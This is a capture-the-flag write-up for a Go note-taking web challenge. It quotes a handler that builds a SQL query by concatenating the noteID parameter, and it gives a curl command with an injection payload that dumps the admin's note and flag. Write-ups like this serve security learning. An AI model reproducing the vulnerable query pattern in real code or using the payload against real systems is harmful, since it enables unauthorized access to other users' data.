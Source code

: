 # Scan

Scanning the server has 2 ports that has a related webserver running: `23689` and `42069`. There are 2 Diary challenges which are almost identical.

Later it turns out that `42069` belongs to the first challenge.

# Website

It has a website with accounts and note creation. 

![](screenshots/1.png)

The notes are created with markdown syntax.


![](screenshots/2.png)

After creating a note, it can be viewed as pdf.

The flag is stored in the `admin` user's note. 

# PDF generation

The backend is written in go and handling the accounts and notes. The pdf is generated with a markdown to html and html to pdf all inside the go program.

Both the html and pdf generation libraries are quite basic. After checking the source code, there seems to be no parsing error or injection vector that could help there. 

# SQL injection

When rendering the notes, there is an option to inject in the noteID field, from directly the query parameters.

```go
func renderNote(w http.ResponseWriter, r *http.Request) {
  //redacted
	noteID := r.URL.Query().Get("noteID")
  //redacted
  go func() {
		var title string
		var content string
		err := db.QueryRow("SELECT title, content FROM notes WHERE id = "+noteID+" AND username = '"+username+"'").Scan(&title, &content)
    //redacted
		pdfBytes, err := renderPDF(title, content)
		queryResult <- struct {
			title     string
			content   string
			pdfBytes  []byte
			queryErr  error
			renderErr error
		}{title, content, pdfBytes, nil, err}
	}()
  //redacted
}

```

Registering as any user and grabbing an auth JWT token, it is possible to dump anyone's notes.

```bash
curl -v -G -X GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhIiwiZXhwIjoxNzI3NzE3MTI0fQ.FG1U8dHq3La0h19zyGIYEeaka8bYR5dcexHqIa0w-6A' 'http://10.10.1.10:42069/notes/render' --data-urlencode 'noteID=0 --' --output ./flag.pdf
```

![](screenshots/3.png)

The exploit is not working on the other port, this is how you could differentiate which port belongs to which challenge.

# Flag

`CQ24{4nd_Th3rE_1_Th0ughT_r3gEx3s_4r3_s@f3}`